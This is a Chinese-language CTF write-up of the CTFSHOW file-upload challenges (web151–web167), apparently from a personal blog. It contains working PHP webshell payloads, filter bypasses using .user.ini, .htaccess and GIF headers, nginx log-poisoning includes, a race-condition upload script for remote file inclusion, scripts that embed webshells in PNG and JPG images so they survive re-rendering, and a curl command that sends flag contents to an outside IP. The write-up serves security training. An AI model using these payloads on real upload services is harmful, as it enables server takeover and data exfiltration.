+++
date = '2024-12-22T00:27:55+08:00'
title = 'CTFSHOW-文件上传-Writeup'
categories = ["Writeup"]
tags = ["writeup", "ctf", "Web"]

+++


#### web151


前台验证

将一句话木马改成png，抓包修改后缀即可


payload:

```
1=system('cat /var/www/html/flag.php');
```


#### web152

这道题没有前端检验，但是解法跟web151是一样的




#### web153

一开始尝试了大小写绕过



上传后发现服务器不解析

这题可以利用.user.ini来进行文件上传

[[文件上传\]浅析.user.ini的利用-CSDN博客](https://blog.csdn.net/cosmoslin/article/details/120793126)

首先我们在文件中写入



这句话相当于php中的文件包含

写入后将文件改为png上传，抓包将文件名改为.user.ini



接着将一句话木马改为1.png上传



接着访问 /upload/index.php

payload:

```
1=system('tac ../f*');
```



注意这个方法的前提是文件上传的目录中有能够执行的php的文件（如index.php）

#### web154

这题跟上题差不多，只是过滤了php

将一句话木马改成短标签的形式就可以了（我一直用的短标签所以没什么影响）


#### web155

解法同web154一样


#### web156


这题有新的waf,可以测出来waf掉了[]

那既然这样我们直接读flag就是了

```
<?=system('cat ../f*');?>
```

或者也可以用{}代替['']

```
<?=@eval($_GET{1});?>
```


#### web157



这道题[]和;都被waf了

payload:

```
<?=system("tac ../f*")?>
```

不写;就行了


#### web158

这题和上题的解法一样


#### web159



这题waf掉了()

 没有()怎么进行rce呢？我们可以想到``进行命令执行的技巧

payload:

```
<?=`tac ../f*`?>
```


#### web160



一开始发现.user.ini穿不上，后面测到原来是空格被waf了，.user.ini里也不能有空格

相比上一题这题将空格和``反引号和log过滤掉了

这题我们可以考虑使用日志注入的方法

尝试一下包含日志 nginx的log在/var/log/nginx/access.log

payload:

```
<?=include"/var/l"."og/nginx/access.l"."og"?>
```



看到有user-agent说明这条路行得通



直接读flag




#### web161

这一题在上一题的基础上增加了文件头的检验

我们可以通过在上传文件的时候加上图片的文件头**GIF89a**进行绕过



其余和web160无异，利用文件包含进行日志注入即可


#### web162


fuzz一下可以发现这题把.也ban掉了

所以我们在上传的.user.ini时我们可以去掉文件后缀



```
GIF89a
auto_prepend_file=1
```

接下来考虑怎么构造读flag

可以通过取反绕过.的过滤，进行文件包含

```
<?=$a="Ñ"?>  
<?=$b=~$a?>
<?=$l="l"?>
<?=$o="o"?>
<?=$g="g"?>
<?=include"/var/$l$o$g/nginx/access$b$l$o$g"?>
```

文件 1 中的内容 下面的Ñ 为 . 取反后的字符 十六进制为 D1，利用的时候，在brup 中更改hex里的值。





日志注入即可


#### web163

这题和上题的条件差不多，但是存在竞争条件，上传图片的话会被删掉

这题我们尝试使用**远程文件包含**


我们把payload写在服务器上，然后起一个http服务



记住，文件包含时要把ip转换成长整型（.被waf了）

```
GIF89a
auto_prepend_file=http://长整型ip:7777/s
```



传.user.ini

接着搓一个发包脚本

```python
import requests

while True:
    burp0_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/"
    burp1_url = "http://3de6e682-59e3-489c-8e72-2b74e3db5058.challenge.ctf.show/upload/"
    burp0_headers = {"Sec-Ch-Ua-Platform": "\"Windows\"", "Accept-Language": "zh-CN,zh;q=0.9", "Sec-Ch-Ua": "\"Not?A_Brand\";v=\"99\", \"Chromium\";v=\"130\"", "Sec-Ch-Ua-Mobile": "?0", "X-Requested-With": "XMLHttpRequest", "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36", "Accept": "application/json, text/javascript, */*; q=0.01", "Content-Type": "multipart/form-data; boundary=----WebKitFormBoundaryBcDoqZWhQP52WEA6", "Origin": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show", "Sec-Fetch-Site": "same-origin", "Sec-Fetch-Mode": "cors", "Sec-Fetch-Dest": "empty", "Referer": "https://938b9a73-97ad-4b15-81d8-0101678e16f8.challenge.ctf.show/", "Accept-Encoding": "gzip, deflate, br", "Priority": "u=1, i", "Connection": "keep-alive"}
    burp0_data = "------WebKitFormBoundaryBcDoqZWhQP52WEA6\r\nContent-Disposition: form-data; name=\"file\"; filename=\".user.ini\"\r\nContent-Type: image/png\r\n\r\nGIF89a\r\nauto_prepend_file=http://长整型ip:7777/shell\r\n------WebKitFormBoundaryBcDoqZWhQP52WEA6--\r\n"
    log = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    log1 = requests.get(burp1_url)
    print(log.status_code)
    print('\n')
    print(log1.text)
    if "ctfshow" in log1.text:
        print('getflag')
        break
```


#### web164



这题随便传个图片试试发现多了个查看图片

```
https://775e9cd3-3a73-47a1-b31d-7b4450ec5573.challenge.ctf.show/download.php?image=94f7678cc4cda39c02c7890bc8fe6941.png
```



从url我们可以看出这题存在图片包含

我们可以利用这个文件包含去执行我们的图片马

大佬的脚本，可以绕过二次渲染

```php
<?php
$p = array(0xa3, 0x9f, 0x67, 0xf7, 0x0e, 0x93, 0x1b, 0x23,
           0xbe, 0x2c, 0x8a, 0xd0, 0x80, 0xf9, 0xe1, 0xae,
           0x22, 0xf6, 0xd9, 0x43, 0x5d, 0xfb, 0xae, 0xcc,
           0x5a, 0x01, 0xdc, 0x5a, 0x01, 0xdc, 0xa3, 0x9f,
           0x67, 0xa5, 0xbe, 0x5f, 0x76, 0x74, 0x5a, 0x4c,
           0xa1, 0x3f, 0x7a, 0xbf, 0x30, 0x6b, 0x88, 0x2d,
           0x60, 0x65, 0x7d, 0x52, 0x9d, 0xad, 0x88, 0xa1,
           0x66, 0x44, 0x50, 0x33);


$img = imagecreatetruecolor(32, 32);

for ($y = 0; $y < sizeof($p); $y += 3) {
   $r = $p[$y];
   $g = $p[$y+1];
   $b = $p[$y+2];
   $color = imagecolorallocate($img, $r, $g, $b);
   imagesetpixel($img, round($y / 3), 0, $color);
}

imagepng($img,'./1.png');
?>

```

```
图片马的内容 <?$_GET[0]($_POST[1]);?>
```

没有回显

外带读flag

```
POST 1=cat f* | curl -X POST -d @- http://106.55.168.231:7777/
GET 0=system
```


#### web165

这题考察的也是图片马，但是是用jpg的图片马绕过二次渲染

大佬的脚本

```php
<?php
    /*

    The algorithm of injecting the payload into the JPG image, which will keep unchanged after transformations caused by PHP functions imagecopyresized() and imagecopyresampled().
    It is necessary that the size and quality of the initial image are the same as those of the processed image.

    1) Upload an arbitrary image via secured files upload script
    2) Save the processed image and launch:
    jpg_payload.php <jpg_name.jpg>

    In case of successful injection you will get a specially crafted image, which should be uploaded again.

    Since the most straightforward injection method is used, the following problems can occur:
    1) After the second processing the injected data may become partially corrupted.
    2) The jpg_payload.php script outputs "Something's wrong".
    If this happens, try to change the payload (e.g. add some symbols at the beginning) or try another initial image.

    Sergey Bobrov @Black2Fan.

    See also:
    https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/

    */
		
    $miniPayload = "<?=eval(\$_POST[7]);?>"; //注意$转义


    if(!extension_loaded('gd') || !function_exists('imagecreatefromjpeg')) {
        die('php-gd is not installed');
    }

    if(!isset($argv[1])) {
        die('php jpg_payload.php <jpg_name.jpg>');
    }

    set_error_handler("custom_error_handler");

    for($pad = 0; $pad < 1024; $pad++) {
        $nullbytePayloadSize = $pad;
        $dis = new DataInputStream($argv[1]);
        $outStream = file_get_contents($argv[1]);
        $extraBytes = 0;
        $correctImage = TRUE;

        if($dis->readShort() != 0xFFD8) {
            die('Incorrect SOI marker');
        }

        while((!$dis->eof()) && ($dis->readByte() == 0xFF)) {
            $marker = $dis->readByte();
            $size = $dis->readShort() - 2;
            $dis->skip($size);
            if($marker === 0xDA) {
                $startPos = $dis->seek();
                $outStreamTmp = 
                    substr($outStream, 0, $startPos) . 
                    $miniPayload . 
                    str_repeat("\0",$nullbytePayloadSize) . 
                    substr($outStream, $startPos);
                checkImage('_'.$argv[1], $outStreamTmp, TRUE);
                if($extraBytes !== 0) {
                    while((!$dis->eof())) {
                        if($dis->readByte() === 0xFF) {
                            if($dis->readByte !== 0x00) {
                                break;
                            }
                        }
                    }
                    $stopPos = $dis->seek() - 2;
                    $imageStreamSize = $stopPos - $startPos;
                    $outStream = 
                        substr($outStream, 0, $startPos) . 
                        $miniPayload . 
                        substr(
                            str_repeat("\0",$nullbytePayloadSize).
                                substr($outStream, $startPos, $imageStreamSize),
                            0,
                            $nullbytePayloadSize+$imageStreamSize-$extraBytes) . 
                                substr($outStream, $stopPos);
                } elseif($correctImage) {
                    $outStream = $outStreamTmp;
                } else {
                    break;
                }
                if(checkImage('payload_'.$argv[1], $outStream)) {
                    die('Success!');
                } else {
                    break;
                }
            }
        }
    }
    unlink('payload_'.$argv[1]);
    die('Something\'s wrong');

    function checkImage($filename, $data, $unlink = FALSE) {
        global $correctImage;
        file_put_contents($filename, $data);
        $correctImage = TRUE;
        imagecreatefromjpeg($filename);
        if($unlink)
            unlink($filename);
        return $correctImage;
    }

    function custom_error_handler($errno, $errstr, $errfile, $errline) {
        global $extraBytes, $correctImage;
        $correctImage = FALSE;
        if(preg_match('/(\d+) extraneous bytes before marker/', $errstr, $m)) {
            if(isset($m[1])) {
                $extraBytes = (int)$m[1];
            }
        }
    }

    class DataInputStream {
        private $binData;
        private $order;
        private $size;

        public function __construct($filename, $order = false, $fromString = false) {
            $this->binData = '';
            $this->order = $order;
            if(!$fromString) {
                if(!file_exists($filename) || !is_file($filename))
                    die('File not exists ['.$filename.']');
                $this->binData = file_get_contents($filename);
            } else {
                $this->binData = $filename;
            }
            $this->size = strlen($this->binData);
        }

        public function seek() {
            return ($this->size - strlen($this->binData));
        }

        public function skip($skip) {
            $this->binData = substr($this->binData, $skip);
        }

        public function readByte() {
            if($this->eof()) {
                die('End Of File');
            }
            $byte = substr($this->binData, 0, 1);
            $this->binData = substr($this->binData, 1);
            return ord($byte);
        }

        public function readShort() {
            if(strlen($this->binData) < 2) {
                die('End Of File');
            }
            $short = substr($this->binData, 0, 2);
            $this->binData = substr($this->binData, 2);
            if($this->order) {
                $short = (ord($short[1]) << 8) + ord($short[0]);
            } else {
                $short = (ord($short[0]) << 8) + ord($short[1]);
            }
            return $short;
        }

        public function eof() {
            return !$this->binData||(strlen($this->binData) === 0);
        }
    }
?>

```

jpg图片比较脆弱，成功率很低，我试了十多张图片都没成功


#### web166

zip注入

这题只能上传zip，上传后会出现查看文件，存在文件包含

本质上就是利用文件包含执行我们的恶意代码


#### web167

.htaccess文件利用

> 什么是.htaccess？
>
> htaccess文件是[Apache](https://baike.baidu.com/item/Apache/0?fromModule=lemma_inlink)服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页[301重定向](https://baike.baidu.com/item/301重定向/1135400?fromModule=lemma_inlink)、自定义[404错误页面](https://baike.baidu.com/item/404错误页面/583066?fromModule=lemma_inlink)、改变[文件扩展名](https://baike.baidu.com/item/文件扩展名/1270230?fromModule=lemma_inlink)、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。

如果服务器开启了.htaccess，那我们就可以利用.htaccess将jpg或者png等后缀的文件，作为php文件解析

```
AddType/AddHandler application/x-httpd-php ".jpg"
```

由于有前端验证，我们要先把编写好的.htaccess文件改为.jpg后缀

再通过抓包将文件名修改为.htaccess

